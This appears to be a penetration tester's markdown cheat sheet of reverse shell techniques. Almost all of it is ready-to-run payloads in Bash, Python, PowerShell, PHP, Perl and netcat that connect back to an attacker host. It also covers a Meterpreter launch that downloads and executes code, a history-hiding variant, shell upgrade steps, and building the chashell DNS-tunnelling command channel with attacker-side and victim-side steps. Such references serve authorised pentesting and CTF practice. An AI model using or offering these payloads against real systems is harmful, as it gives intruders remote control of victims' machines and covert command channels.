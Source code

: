 # Reverse Shells

* [https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/](https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/)




## Bash

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f
```




## Python



### IPv4

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()
```



### IPv6

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()
import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()
```




## PowerShell

System.Net.Sockets.TCPClient:

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.13.37",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```




## PHP

```php
<?php echo passthru("/bin/bash -c '/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'"); ?>
```




## Perl

```
use Socket;$i="<LHOST>";$p=<LPORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```




## Netcat

```
$ {nc.tradentional|nc|ncat|netcat} <LHOST> <LPORT> {-e|-c} /bin/bash
```




## Meterpreter



### unicorn

* [https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)

```
$ ./unicorn.py windows/meterpreter/reverse_https 10.10.13.37 443
$ sudo msfconsole -qr unicorn.rc
PS > IEX(New-Object Net.WebClient).DownloadString('powershell_attack.txt')
```




## Listeners

```
$ {nc.tradentional|nc|ncat|netcat} [-6] -lvnp <LPORT>
```




## Upgrade to PTY

* [https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312](https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312)
* [https://xakep.ru/2019/07/16/mischief/#toc05.1](https://xakep.ru/2019/07/16/mischief/#toc05.1)
* [https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/](https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/)

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Or
$ script -q /dev/null sh

user@remote:$ ^Z
(background)

root@kali:$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
(get ROWS and COLS)

root@kali:$ stty raw -echo; fg

(opt) user@remote:$ reset

user@remote:$ stty rows ${ROWS} cols ${COLS}

user@remote:$ export TERM=xterm
(or xterm-color or xterm-256color)

(opt) user@remote:$ exec /bin/bash [-l]
```




## Transport over DNS

* [https://xakep.ru/2018/09/07/dns-tunneling/](https://xakep.ru/2018/09/07/dns-tunneling/)
* [https://habr.com/ru/post/345056/](https://habr.com/ru/post/345056/)
* [https://habr.com/ru/company/group-ib/blog/496712/](https://habr.com/ru/company/group-ib/blog/496712/)



### chashell

* [https://github.com/sysdream/chashell](https://github.com/sysdream/chashell)

Buy and configure DNS (e.g., `c2cdomain.net`):

```
A * -> <IP>
A @ -> <IP>
A chashell -> <IP>
NS c -> chashell.c2cdomain.net
```

Get dependencies:

```
$ export GOPATH=/home/snovvcrash/code/go
$ export PATH=$GOPATH:$GOPATH/bin:$PATH
$ go get -v -u github.com/golang/dep/cmd/dep
$ go get github.com/mitchellh/gox
$ cd $GOPATH/src/github.com/golang/dep
$ go install ./...
```

Clone chashell into `$GOPATH/src` (otherwise, `dep` will error out):

```
$ git clone https://github.com/sysdream/chashell $GOPATH/src/chashell
$ cd $GOPATH/src/chashell
```

Build binaries:

```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.c2cdomain.net
$ make build-all OSARCH="linux/amd64"
```

Run server on Attacker:

```
$ cd release/
$ sudo systemctl stop systemd-resolved
$ sudo ./chaserv_linux_amd64
```

Run client on Victim:

```
$ ./chashell_linux_amd64
```




## Helpers



### pwncat

* [https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/](https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/)
* [https://github.com/cytopia/pwncat](https://github.com/cytopia/pwncat)



### VbRev

* [https://github.com/VbScrub/VbRev](https://github.com/VbScrub/VbRev)



### xc

* [https://github.com/xct/xc](https://github.com/xct/xc)

Listen:

```
$ rlwrap ./xc -l -p 443
```

Launch:

```
PS > Start-Process -NoNewWindow .\xc.exe "10.10.13.38 443"
```



### Payload Generators

* [http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)
* [https://www.revshells.com/](https://www.revshells.com/)


#### ShellPop

* [https://github.com/0x00-0x00/ShellPop](https://github.com/0x00-0x00/ShellPop)

Bash reverse TCP:

```
$ shellpop -H 10.10.13.37 -P 9001 --reverse --number 8 --base64
```
